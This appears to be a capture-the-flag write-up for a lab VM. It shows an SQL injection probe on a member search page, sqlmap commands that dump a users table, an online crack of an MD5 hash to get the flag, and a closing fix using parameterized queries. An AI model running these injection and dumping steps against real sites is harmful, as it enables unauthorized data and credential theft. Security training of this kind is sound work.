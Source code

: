 VULNERABILTY__
   => Search member tag, is vulnerable to sql injection.


EXPLOIT_?
    step1 ) => see if the sight reposnds to an SQL Injection
    nu typing  [ 1 or 1 = 1], in the search bar and then press Enter.

    step 2) => if the page returns information about an image,
        open terminal, copy the URL and paste in sqlmap
        like so,

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --tables

        => this should return the schema's of the database.
        => then 

        sqlmap -u "http://192.168.8.6/?page=searchimg&id=1+or+1+%3D+1&Submit=Submit#" --dump -T users

        ^ should retune the table:
        
 ```bash       
Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
```

    => copy and paste " 5ff9d0165b4f92b14994e5c685cdce28" on  "https://www.md5online.org/md5-decrypt.html" to get
    a decoded string i.e "fortytwo", then then type "fortytwo" in "https://passwordsgenerator.net/sha256-hash-generator/"
    to get the Flag "10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5"

```bash
 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo => fortytwo => 10A16D834F9B1E4068B25C4C46FE0284E99E44DCEAF08098FC83925BA6310FF5
 ```

SOLUTION:
```bash
    Use SQL Parameters (parametized Queries)
     for Protection e.g txtNam = getRequestString("CustomerName");
                        txtAdd = getRequestString("Address");
                        txtCit = getRequestString("City");
                        txtSQL = "INSERT INTO Customers (CustomerName,Address,City) Values(@0,@1,@2)";
                        db.Execute(txtSQL,txtNam,txtAdd,txtCit);
                        
                        ```

    => use prepared statements  and  stored procedure                              
  
